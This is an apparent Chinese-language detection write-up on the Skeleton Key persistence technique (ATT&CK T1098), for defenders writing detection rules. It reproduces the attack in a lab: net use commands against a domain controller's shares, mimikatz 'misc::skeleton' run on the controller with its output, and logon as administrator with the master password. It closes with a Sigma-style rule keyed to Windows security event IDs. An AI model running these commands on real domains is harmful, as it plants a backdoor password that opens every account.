 ```yaml
---
title: 监控万能密码攻击行为
date: 2020-04-15 21:21:21
tags: [ATT&CK-持久性,ATT&CK-凭证获取]
---
```


## 简述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

使用万能密码（skeleton key），可以对域内权限进行持久化操作。

## 检测日志

windows 安全日志

## 测试复现

### 步骤1（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>dir \\dc.xiaomi.org\c$  
拒绝访问。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "admin.098" /user:xiaomi\administra
tor
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。


C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。


C:\Users\xiaomi>net use
会记录新的网络连接。

列表是空的。
```

### 步骤2（DC上执行，管理员权限）

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**系统提示Skeleton Key已经注入成功。此时，会在域内的所有账户中添加一个Skeleton key，其密码默认为“mimikatz”。接下来可以以域内任何用户的身份，配合该Skeleton Key，进行域内身份授权验证了。**

### 步骤3（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrat
or
命令成功完成。


C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节

```

## 测试留痕

windows安全事件ID，多事件关联分析

## 检测规则/思路

```yml
title: Windows 万能密码
description: Windows server 2008 R2\win 7
references: https://0xsp.com/ad-attack-or-defense/ad-ttps-list
tags: T1098
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4673  #调用权限的服务
    selection2:
        EventID: 4611  #受信任的登录进程已在本地安全机构注册
    selection3:
        EventID: 4688  #新进程创建
    selection4:
        EventID: 4689  #退出进程
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1098：<https://attack.mitre.org/techniques/T1098/>

域渗透——Skeleton Key – 三好学生：<http://www.vuln.cn/6816>

